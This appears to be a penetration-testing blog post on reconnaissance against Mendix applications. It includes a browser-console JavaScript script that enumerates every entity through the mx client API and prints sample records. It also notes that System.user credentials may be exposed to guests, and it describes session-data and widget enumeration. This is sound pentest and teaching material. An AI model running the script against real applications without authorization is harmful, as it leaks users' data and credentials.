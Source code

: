 ```yaml
---
title: Reconnaissance Guide for Mendix Applications 
date: 2025-10-28 00:00:00 +02:00
categories:
- Info Leakage
- recon
layout: post
excerpt: Mendix is a low-code application development platform that enables rapid application development. However, like any web application framework, it comes with its own set of security considerations. This guide explores various penetration testing techniques specific to Mendix applications, focusing on client-side exploitation and metadata enumeration.
comments: true
thumbnail: japan.jpg
---
```




# Reconnaissance Guide for Mendix Applications 


## Introduction

Mendix is a low-code application development platform that enables rapid application development. However, like any web application framework, it comes with its own set of security considerations. This guide explores various penetration testing techniques specific to Mendix applications, focusing on client-side exploitation and metadata enumeration.

## Mendix XML Template Files

These files serve as templates for various forms within Mendix applications, including login pages and file upload interfaces. They contain valuable reconnaissance information such as form fields and occasionally user role definitions. Notably, these XML files are publicly accessible, making them excellent targets for dictionary-based enumeration attacks to discover commonly named forms. You can access them at: `http://localhost:8080/pages/
	
![](/img/Pastedimage20251028165800.png)
![](/img/Pastedimage20251028165747.png)
	
## mx javscript library
```
// View session metadata. Entity
mx.session.sessionData.metadata 
// Check available microflows
mx.session.sessionData.microflows 
// Examine object types 
mx.session.sessionData.metadata[2]['objectType']
//Enumeation
mx.session.sessionData.enumerations
```
**List all accessible Entities**

```javascript
//list only object that has content
const objects = mx.session.sessionData.metadata
let obj=null
let objwithContent=[]
function getObject(obj) {
    //console.log(`Getting the content of the first object of ${obj}`);
    var innerobj=obj
    mx.data.get({
        xpath: `//${obj}`,
        callback: function(obj) {
            // Check here if obj is not empty
            if (obj.length != 0) {
                let attr = obj[0]['jsonData']['attributes'];
                console.log(`%cSample data of ${innerobj}:`, 'background-color: green')
                for (const key in attr) {
                    if (attr.hasOwnProperty(key)) {
                        console.log(` ${key}: ${attr[key]['value']}`);
                    }
                }
                objwithContent.push(obj)
            } else {
                console.log(`object ${obj} is empty`);
            }
        }
    }); 
}

//loop to every  object
for (const key in objects){ 
	console.log(objects[key]['objectType'])
	obj =objects[key]['objectType']
	//console.log(obj)
	getObject(obj)
	}

//list all accessible entities
objwithContent.forEach(function(element) {
  console.log(element[0].jsonData.objectType);
//console.log(element[0].jsonData);
});


```



![](/img/Pastedimage20251028172328.png)
![](/img/Pastedimage20251028172958.png)

**In certain cases, guest or anonymous users may gain access to the `System.user` entity, which holds sensitive credentials such as usernames and passwords.**


## get_session action
 
  you can also send an HTTP post request with `get_session_data` action
to get valuable information about the mendix app such as constants, data type, and fields. Fields and Data type are useful for other vulnerability such SQL injection   
![](/img/Pastedimage20251028163226.png)

**HTTP Response**


![](/img/Pastedimage20251028163607.png)

![](/img/Pastedimage20251028163641.png)

## widget

You can list all widgets on the https://app/widgets/.* Sometimes these widgets contain a JS library that is vulnerable to CVEs

  ![](/img/Pastedimage20251028162615.png)
  
  ![](/img/Pastedimage20251028162826.png)
